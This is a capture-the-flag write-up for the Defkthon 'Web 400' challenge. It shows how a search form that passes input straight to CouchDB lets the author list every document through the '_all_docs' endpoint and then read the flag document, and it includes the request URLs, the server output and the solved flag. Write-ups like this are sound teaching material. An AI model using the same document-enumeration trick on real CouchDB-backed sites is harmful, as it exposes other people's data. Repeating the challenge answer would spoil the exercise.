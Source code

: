 # DEFKTHON CTF: Web 400

**Description:**

> [Search Me](http://54.201.96.212:888/web400/web_search.php)

## Write-up

The `web_search.php` endpoint contains a form, and (by default) displays the following error message:

```
Error: Document ID is empty (errcode=0)
```

Let’s enter `test` in the search field and submit the form. [The response](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=test) contains:

```
Error: Object Not Found - missing (GET /astro_users/test []) (errcode=404)
```

[This error message format](https://www.google.com/search?q=%22Object%20Not%20Found%20-%20missing%22) is a hint that CouchDB is used.

CouchDB has [an `_all_docs` endpoint](http://couchdb.readthedocs.org/en/latest/api/database/bulk-api.html#get--db-_all_docs) that returns a list of all available documents in the database, in JSON format. (Note: [`_changes`](http://couchdb.readthedocs.org/en/latest/api/database/changes.html) could be used as well.) [Let’s take a look](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=_all_docs):

```
stdClass Object
(
    [total_rows] => 3
    [offset] => 0
    [rows] => Array
        (
            [0] => stdClass Object
                (
                    [id] => flag_for_l33ts
                    [key] => flag_for_l33ts
                    [value] => stdClass Object
                        (
                            [rev] => 4-f9d777fcf20c3fc52943aeba961593e9
                        )

                )

            [1] => stdClass Object
                (
                    [id] => userid1
                    [key] => userid1
                    [value] => stdClass Object
                        (
                            [rev] => 3-3125d533dea89836adec3b8a5a652030
                        )

                )

            [2] => stdClass Object
                (
                    [id] => userid2
                    [key] => userid2
                    [value] => stdClass Object
                        (
                            [rev] => 5-0090aa4c0db1f8d52a74d6134b2e48ef
                        )

                )

        )

)
```

`flag_for_l33ts` sounds interesting. [Let’s check it out](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=flag_for_l33ts):

```
stdClass Object
(
    [_id] => flag_for_l33ts
    [_rev] => 4-f9d777fcf20c3fc52943aeba961593e9
    [flag_for_l33ts_only] => flag{here_you_go_nice_solving_webChalLenges}
)
```

The flag is `here_you_go_nice_solving_webChalLenges`.

## Other write-ups

* none yet
